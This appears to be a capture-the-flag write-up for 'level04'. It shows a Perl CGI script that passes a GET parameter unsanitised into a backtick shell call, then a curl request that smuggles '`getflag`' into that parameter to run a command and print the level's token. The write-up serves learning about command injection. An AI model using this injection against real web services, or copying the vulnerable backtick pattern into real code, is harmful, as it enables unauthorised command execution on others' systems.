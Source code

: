 # level04 solution
Given perl script that starts at localhost at port 4747, takes argument x and prints it with echo

    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));

We can check if it runs with netstat command:

    netstat -tuln
    tcp6       0      0 :::4242                 :::*                    LISTEN

We can connect to it via curl and provide argument via GET parameters:

    curl localhost:4747?x=smth
    smth

We can abuse this behaviour by putting backquotes to x so bash will expand it and execute any program we put in between:

    curl localhost:4747?x=\`getflag\`
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
